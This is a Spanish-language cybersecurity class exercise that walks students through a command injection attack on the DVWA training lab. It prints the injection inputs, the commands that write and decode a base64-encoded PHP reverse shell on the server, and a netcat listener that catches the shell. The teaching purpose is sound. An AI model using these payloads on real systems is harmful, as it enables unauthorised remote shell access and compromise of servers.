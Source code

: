 ```yaml
---
typora-copy-images-to: ../assets/img/fileupload
typora-root-url: ../../
layout: post
categories: tema4 Command Injection
title: Command Injection
conToc: false
author: Víctor Ponz
conToc: true
titlepage: true
titlepage-background: assets/img/riesgos.png
page-background:  assets/img/fondo-pagina.png
urlcolor: CornflowerBlue
linkcolor: black
toc-own-page: true
toc-title: Contenidos
header-left: UD 4. Command Injection
header-right: Ciberseguridad
footer-left: IES El Caminàs
footer-right: \thepage/\pageref{LastPage}
titlepage-rule-color: 1e2c37
header-includes: |
    \usepackage{lastpage} 
    \usepackage{awesomebox}
pandoc-latex-environment:
    noteblock: [note]
    tipblock: [tip]
    warningblock: [warning]
    cautionblock: [caution]
    importantblock: [important]
---
```


## Práctica - Command injection

> La inyección de comandos es un ataque en el que el objetivo es la ejecución de comandos arbitrarios en el sistema operativo host a través de una aplicación vulnerable. Los ataques de inyección de comandos son posibles cuando una aplicación pasa datos no seguros proporcionados por el usuario (formularios, cookies, encabezados HTTP, etc.) a un shell del sistema. En este ataque, los comandos del sistema operativo proporcionados por el atacante generalmente se ejecutan con los privilegios de la aplicación vulnerable. Los ataques de inyección de comandos son posibles en gran parte debido a una validación de entrada insuficiente.

En la **siguiente práctica** vamos a realizar un *reverse shell* mediante la inyección  de comandos desde un campo de texto de un formulario que no realiza una validación de entrada correcta.

Este es una variante del ataque **FileUpload** ya que persigue almacenar un fichero ejecutable con dicho reverse shell.

La máquina DVWA tiene un fallo de seguridad en la página [Command Injection](http://localhost:8080/vulnerabilities/exec/).

![Command Injection](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504191910879.png)

En este formulario se supone que el usuario puede poner una IP a la que hacerle ping. Para descubrir si es vulnerable a Command injection podemos introducir el siguiente comando:

```
127.0.0.1 ; ls
```

Lo que intentamos es que el servidor ejecute también el comando `ls` ya que suponemos que esta es la instrucción que realiza el `ping`

```php
 $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
```

y no comprueba si `$target` es una IP Válida.

**Los pasos son los siguientes:**

## Paso 1
Descarga el archivo del *reverse shell* desde esta [dirección](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y guárdalo como `shell.php`

## Paso 2 
Edítalo y cambia la IP por la de tu equipo

![Reverse shell](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504175459944.png)


## Paso 3
Ahora vamos a codificarlo en [base 64](https://www.base64encode.org/.)  

   > **Nota**. Para que ocupe menos espacio es recomendable eliminar los comentarios 

## Paso 4
Nos aprovecharnos de la vulnerabilidad para crear un archivo en el servidor mediante la siguiente entrada en el formulario:

   ```
   127.0.0.1 ; echo "pega-aquí-el-código-en-base64" > shell.txt
   ```

   Con este comando estamos creando el archivo `shell.txt` con el código en base64.

## Paso 5
Decodificamos el código mediante la siguiente entrada

   ```
   127.0.0.1 ; cat shell.txt | base64 -d > shell.php
   ```

## Paso 6
Ya sólo nos queda ejecutar en el ordenador del atacante el comando `netcat`

    nc -v -n -l -p 1234

## Paso 7
Y quedarnos a la espera de una conexión entrante desde el ordenador de la víctima al visitar la url [localhost:8080/vulnerabilities/exec/shell.php](localhost:8080/vulnerabilities/exec/shell.php) del punto 5.

 ![Remote shell](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504193946369.png)

